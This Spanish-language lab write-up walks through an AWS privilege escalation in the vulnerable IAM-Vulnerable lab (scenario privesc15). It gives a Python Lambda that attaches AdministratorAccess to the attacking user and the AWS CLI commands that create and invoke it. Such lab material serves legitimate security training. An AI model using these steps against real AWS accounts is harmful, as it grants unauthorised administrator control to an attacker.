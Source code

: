 # PassExistingRoleToNewLambdaThenInvoke

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc15

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc15
{% endembed %}

Un atacante con los permisos <mark style="color:green;">iam:PassRole</mark> , <mark style="color:green;">lambda:CreateFunction</mark> y <mark style="color:green;">lambda:InvokeFunction</mark> puede escalar privilegios pasando un rol de IAM existente a una nueva función de Lambda que incluye código para importar la biblioteca de AWS relevante para el lenguaje de programación de su elección, y luego usándola para realizar las acciones de su elección. Para este ejercicio se simulará que es una auditoria post autenticación (habiendo obtenido las credenciales por algún otro medio previo).

### Configuración Inicial

Usuario del laboratorio: privesc15-PassExistingRoleToNewLambdaThenInvoke-user

La cuenta de AWS debe contener un rol existente que incluya el permiso iam:AttachUserPolicy y las funciones lambda deben poder asumir este rol.

{% code title="assumeRolePolicy.json" overflow="wrap" %}
```json
{
     "Version": "2012-10-17",
     "Statement": [
         {
            "Sid": "VisualEditor0",
             "Effect": "Allow",
             "Action": "iam:AttachUserPolicy",
             "Resource": "arn:aws:iam::*:user/*"
         }
     ]
}
```
{% endcode %}

Luego las políticas asociadas al usuario deben ser las siguientes:

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption><p>Permisos mínimos para escalar privilegios </p></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.



### Explotación

#### Paso 1

En este laboratorio, se tiene que iniciar utilizando el permiso <mark style="color:green;">**lambda:Createfunction**</mark> para crear una función lambda maliciosa en Python que tendrá el código para adjuntar una política de altos privilegios al usuario inicial _privesc15_.

<pre class="language-python" data-title="code.py" data-overflow="wrap"><code class="lang-python">import boto3

def lambda_handler(event, context):
    # crea un cliente de IAM usando la biblioteca Boto3
    client = boto3.client('iam')
    
    # adjunta la política "AdministratorAccess" al usuario 
<strong>    response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user',
</strong><strong>    PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
</strong>    
    # devuelve la respuesta de la API de IAM de AWS
    return response

</code></pre>

Para subir el archivo con el permiso  <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Paso 2

Llamar la función maliciosa aprovechando el privilegio de <mark style="color:green;">**lambda:InvokeFunction**</mark> para invocar dicha función y que finalmente el usuario inicial adquiera el rol de administrador.

{% code overflow="wrap" %}
```bash
aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile privesc15
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Con estos pasos ya se habrá ejecutado la escalación de privilegios, se puede observar con el siguiente comando:

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>







